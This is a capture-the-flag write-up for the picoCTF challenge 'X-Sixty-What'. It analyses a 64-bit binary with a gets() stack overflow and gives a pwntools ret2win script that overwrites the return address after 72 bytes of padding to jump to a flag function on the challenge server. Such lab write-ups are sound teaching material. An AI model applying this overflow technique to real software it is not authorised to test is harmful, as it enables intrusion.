

# X-Sixty-What

Challenge Description:

> Overflow x64 code.

> Hint1 : Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes.

> Hint2 : Jump to the second instruction (the one after the first push) in the flag function, if you're getting mysterious segmentation faults.

## Analyzing code

We see that it is a 64 bit executable which is dynamically linked and not stripped.
Also the binary does not have PIE enabled and does not have a stack canary but it does have NX enabled.

`vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3267ee5914133fcf5ee026a4aa2b201324f02089, for GNU/Linux 3.2.0, not stripped`

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

We see that gets() is being used which means we can overflow to the return address and jump to the flag function which is defined.

```c
void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}
```

## Finding offset and creating exploit

The offset found was 72 bytes which was found using `pwn cyclic` and the flag/win_function address can be obtained using `gdb/gdb-peda` or it's extensions.
The script written in the end is shown below.

```python
from pwn import *

elf = ELF("./vuln",checksec=False)
#p = elf.process()
p = remote("saturn.picoctf.net", 62733)

win_function = 0x000000000040123b

padding = b'A'*72

payload = padding
payload += p64(win_function)

p.sendline(payload)

p.interactive()
```

Running the above script gives us the flag below

